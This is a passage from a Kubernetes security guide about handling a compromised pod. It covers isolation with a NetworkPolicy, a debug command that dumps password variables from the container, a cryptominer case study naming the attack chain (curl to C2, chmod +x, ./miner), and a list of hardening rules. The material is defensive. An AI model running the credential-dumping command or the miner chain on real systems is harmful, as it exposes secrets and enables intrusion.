
<span class="prompt">$</span> kubectl apply -f isolate-policy.yaml
<span class="comment"># networkpolicy.networking.k8s.io/isolate-compromised-pod created</span>
<span class="comment"># (pod is now network-blackholed — attacker loses C2 connection)</span>

<span class="prompt">$</span> kubectl debug -it api-7f9b8c-zrtpq -n payments --image=ubuntu:22.04 --target=api -- env | grep -i password
<span class="comment"># DB_PASSWORD=s3cr3t-production-value  ← rotate this immediately</span>
<span class="comment"># AWS_SECRET_ACCESS_KEY=AKIA...        ← rotate this immediately</span>

<span class="prompt">$</span> kubectl rollout restart deployment/api -n payments
<span class="comment"># deployment.apps/api restarted</span>
<span class="comment"># (clean image from registry with fresh signed digest)</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">alert at 02:47</span>
no playbook, improvising under stress
evidence at risk of deletion
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">pod isolated in 90 seconds</span>
forensic snapshot captured
credentials identified for rotation
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">clean deployment live by 03:30</span>
full forensic timeline preserved
postmortem scheduled, controls improved
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Sysdig**, their 2023 Cloud-Native Threat Report documented a real cryptominer incident response. The SecOps team used Sysdig Secure (built on Falco) to replay the exact syscall sequence of the attack — `curl` to C2, `chmod +x`, `./miner` — from the stored capture. The forensic replay was completed in under 20 minutes post-isolation, the compromised credentials (an AWS IMDS-derived token) were revoked before the attacker could pivot to S3, and the postmortem produced a Falco rule that now fires on `chmod +x` of any executable written to `/tmp` in a container.
</div>

</div>

---

## Golden Rules

| # | Rule |
|---|------|
| 1 | STRIDE first — model threats before writing policies |
| 2 | RBAC: every SA gets only the verbs it calls; disable auto-mount by default |
| 3 | PSA `restricted` on all namespaces; `privileged` only for CNI/CSI in infra-ns |
| 4 | Default-deny NetworkPolicy in every namespace; allow DNS explicitly |
| 5 | Zero secrets in Git; use ESO + Vault for production |
| 6 | Block on CRITICAL+HIGH CVEs in CI; re-scan deployed images continuously |
| 7 | Attach SBOM attestation to every image pushed to production registry |
| 8 | Sign every image with cosign keyless; enforce verification at admission |
| 9 | Generate SLSA L3 provenance for all production builds |
| 10 | Policy-as-code in enforce mode; audit mode first in brownfield clusters |
| 11 | Falco + Tetragon for runtime detection; feed to SIEM within 500ms |
| 12 | Practice the incident response playbook quarterly — chaos engineering style |

See `commands.md` for the quick-reference one-liners.
